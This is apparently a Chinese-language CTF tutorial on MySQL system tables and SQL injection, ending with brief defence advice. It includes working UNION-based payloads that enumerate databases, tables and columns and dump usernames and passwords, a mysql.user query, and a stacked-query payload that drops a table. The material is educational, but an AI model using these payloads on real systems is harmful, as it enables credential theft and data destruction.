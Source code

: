 ### 一、MySQL 系统表简介

MySQL 的 **系统表** 存储在 `information_schema` 和 `mysql` 数据库中。它们保存了数据库的元数据，如表、列、用户权限、字符集等信息。

> `information_schema`: 存储 MySQL 数据库服务器的元数据信息，用户可以查询这些表来了解数据库的结构。
>
> `mysql`: 存储 MySQL 用户账户、权限等安全相关的信息。通常只有高权限用户才能访问。

------

### 二、`information_schema` 数据库

`information_schema` 是 MySQL 的元数据表，主要包含以下常用的系统表：

| 系统表             | 描述                                           |
| ------------------ | ---------------------------------------------- |
| `TABLES`           | 存储所有数据库中表的信息，如表名、表类型等。   |
| `COLUMNS`          | 存储所有数据库中列的信息，如列名、数据类型等。 |
| `SCHEMATA`         | 存储所有数据库的名称。                         |
| `KEY_COLUMN_USAGE` | 存储主键、外键等约束信息。                     |
| `USER_PRIVILEGES`  | 存储用户权限信息。                             |
| `CHARACTER_SETS`   | 存储 MySQL 支持的字符集信息。                  |
| `COLLATIONS`       | 存储排序规则相关信息。                         |

------

### 三、常见的 SQL 注入信息枚举过程

通过 **SQL 注入** 攻击，参赛者可以利用系统表来泄露数据库中的敏感信息。以下是常见的步骤：

**获取数据库名称**

```
SELECT schema_name FROM information_schema.schemata;
```

**获取表名称**

```
SELECT table_name FROM information_schema.tables WHERE table_schema='目标数据库';
```

**获取列名称**

```
SELECT column_name FROM information_schema.columns WHERE table_name='目标表' AND table_schema='目标数据库';
```

**获取表的数据** 一旦知道了表名和列名，可以通过 SQL 注入来获取表内的数据，例如：

```
SELECT login_name, login_passwd FROM lesson_user;
```

------

### 四、基于 `information_schema` 的 SQL 注入示例

假设一个网站存在 SQL 注入漏洞，我们将通过注入获取数据库信息。以下是一个注入场景示例。

网站存在以下查询：

```
SELECT * FROM users WHERE username='$username' AND password='$password';
```

攻击者可以通过修改输入来进行 SQL 注入。

**获取数据库名称**

```
' OR 1=1 UNION SELECT schema_name, NULL FROM information_schema.schemata #
```

**获取表名**

```
' OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='目标数据库' #
```

**获取列名**

```
' OR 1=1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```

**获取敏感数据**

```
' OR 1=1 UNION SELECT username, password FROM users #
```

------

### 五、MySQL 用户账户表 (`mysql.user`)

`mysql.user` 是存储 MySQL 用户信息的表，通常只有高权限用户可以访问。

| 列名          | 描述                                                       |
| ------------- | ---------------------------------------------------------- |
| `Host`        | 用户允许登录的主机。                                       |
| `User`        | 用户名。                                                   |
| `Password`    | 用户密码（MySQL 8.0 之前存储为 `authentication_string`）。 |
| `Select_priv` | 是否有 `SELECT` 权限。                                     |
| `Insert_priv` | 是否有 `INSERT` 权限。                                     |
| ...           | 其他权限字段，如 `UPDATE`, `DELETE` 等。                   |

通过 SQL 注入，攻击者可以尝试获取用户表中的信息，从而进行进一步攻击。

```
SELECT user, host FROM mysql.user;
```

------

### 六、CTF 中的 SQL 注入技巧

**盲注**：当页面没有明显返回查询结果时，可以通过布尔盲注和时间盲注推测信息。

**基于 `UNION` 的注入**：用于获取多个表的结果，特别是当页面返回数据时。

堆叠查询（仅限某些数据库支持）：在一条语句中执行多个查询。

```
' OR 1=1; DROP TABLE lesson_user; #
```

### 七、SQL 注入防护

1. **使用预处理语句 (Prepared Statements)**：防止 SQL 注入。
2. **输入验证**：对用户输入进行过滤和验证，防止恶意字符注入。
3. **最小权限原则**：限制数据库用户的权限，防止数据被恶意篡改。
4. **隐藏系统信息**：避免将错误信息直接暴露给用户，防止信息泄露。